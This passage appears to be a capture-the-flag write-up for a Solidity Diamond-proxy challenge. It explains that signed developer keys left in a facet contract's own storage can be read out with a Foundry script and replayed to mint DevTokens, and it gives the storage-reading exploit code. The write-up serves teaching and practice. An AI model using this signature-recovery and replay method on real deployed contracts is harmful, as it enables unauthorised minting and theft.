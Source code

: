 ```solidity
```

These `devkeys` appear to be secure signatures over messages of the form `"Developer key for mafia gangX"` (where `X` is some index). The contract validates that each provided `devkey` corresponds to such a message signed by an authorized mafia member—most likely the original deployer or an address hardcoded as trusted.

In short, anyone can call the `mint` function, but it won’t succeed unless they provide valid signatures for the expected messages. 

Our next objective is therefore to recover these devkeys—either from contract storage, logs, or whatever—so we can mint DevTokens and move forward in the challenge.

### Getting devkeys to move forward

By examining the deployment script, we can see that the `devkeys` are passed directly to the constructor of the `PoolFacet` contract. 

This is a critical detail: the `devkeys` are not stored in the Diamond’s storage via `delegatecall`—they are stored in the implementation contract’s own storage.

This distinction is important. In a standard Diamond architecture, all state is expected to reside in the Diamond itself, with facets acting as logic modules that operate within the Diamond’s context through `delegatecall`. However, in this case, the deployment explicitly stores data in the facet contract’s own storage, outside the Diamond's context.

***Note from Author: this setup is intentionally unorthodox. It’s meant to draw attention to the difference between storage in the proxy (Diamond) and storage in the implementation (facet). Normally, one would never persist important data in a facet’s constructor, but here it serves as a learning point.***

Because of this, we can simply read the storage slots of the `PoolFacet` contract directly on-chain to recover the `devkeys`. Once extracted, these signatures can be reused to mint DevTokens and progress in the challenge.

This is the snippet used to recover the `devkeys` using foundry ([storage doc](https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html)):

```solidity
        // bytes4(keccak256("flashLoan(uint256,address,address,bytes)")) = 0xab19e0c000000000000000000000000000000000000000000000000000000000        
        PoolFacet poolFacet = PoolFacet(payable(IDiamondLoupe(address(diamond)).facetAddress(bytes4(0xab19e0c0))));
        // The DevKeyManager struct starts at POOL_STORAGE_POSITION + 1
        // devkeys is a fixed-length bytes[20] array, so each element takes 1 slot (warning: they're signatures and thus 65bytes long => can't fit in one slot => one more keccak() to put them in the storage)
        // more info about storage in: https://docs.soliditylang.org/en/latest/internals/layout_in_storage.html
        bytes[] memory devkeys = new bytes[](20);
        for (uint256 i = 0; i < 20; i++) {
            uint256 baseSlot = uint256(POOL_STORAGE_POSITION) + 1 + i;
            bytes32 dataSlot = keccak256(abi.encode(baseSlot));
            console2.log("devkeys[%s]:", i);
            bytes memory keyBytes;
            // j < 3 because we'll read 3 slots since 1 slot is 32bytes and we have 65bytes
            for (uint256 j = 0; j < 3; j++) {
                bytes32 word = vm.load(address(poolFacet), bytes32(uint256(dataSlot) + j));
                keyBytes = bytes.concat(keyBytes, word);
            }
            // Trunc for 65bytes
            bytes memory key65 = new bytes(65);
            for (uint256 k = 0; k < 65; k++) {
                key65[k] = keyBytes[k];
            }
            console2.logBytes(key65);
            devkeys[i] = key65;
```